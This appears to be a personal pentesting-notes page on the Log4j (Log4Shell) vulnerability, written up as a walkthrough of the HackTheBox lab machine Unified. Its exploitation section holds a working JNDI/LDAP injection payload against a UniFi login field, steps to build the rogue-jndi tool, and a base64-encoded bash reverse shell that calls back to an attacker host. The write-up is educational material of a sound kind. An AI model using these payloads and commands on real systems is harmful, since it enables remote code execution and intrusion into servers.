 ```yaml
---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---
```


# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is
indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

## Exploitation

```
# Install Open-JDK and Maven as requirement
sudo apt install openjdk-11-jre maven

git clone https://github.com/veracode-research/rogue-jndi 

cd rogue-jndi

mvn package

# Once it's build, make a reverse shell in base64 with attacker machine and listening port
echo 'bash -c bash -i >&/dev/tcp/AtackerIP/AtackerPort 0>&1' | base64
# This will return something similar to this: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK
 
# Get out of rogue-jndi folder and
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.129.96.149"
# In the bash command, copy paste your reverse shell in base64
# --hostname: Victim IP

# Now, open a terminal, launch [[netcat]] abd the listening port you defined in your payload.
```

With Burpsuite, get a request for login:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":false,"strict":true}
```

This request is from [HackTheBox machine: Unified](htb-unified.md). As we can read from the Unifi version exploit, the injectable parameter is "remember". So we insert there our payload and with Repeater, send the request:


```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":"${jndi:ldap://10.10.14.2:1389/o=tomcat}","strict":true}
```

Once we send that request, our jndi server will resend the reverse shell:

![jndi server](img/log4j.png)

And in our terminal with the nc listener we will get the reverse shell.

The misinterpretation of the User-Agent leads to a JNDI lookup which is executed as a command from the system with administrator privileges and queries a remote server controlled by the attacker, which in our case is the `Destination` in our concept of attacks. This query requests a Java class created by the attacker and is manipulated for its own purposes. The queried Java code inside the manipulated Java class gets executed in the same process, leading to a remote code execution (`RCE`) vulnerability. GovCERT.ch has created an excellent graphical representation of the Log4j vulnerability worth examining in detail. Source: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

![log4j](img/log4j_1.png)

## Related labs

[Walkthrough HackTheBox machine: Unified](htb-unified.md).


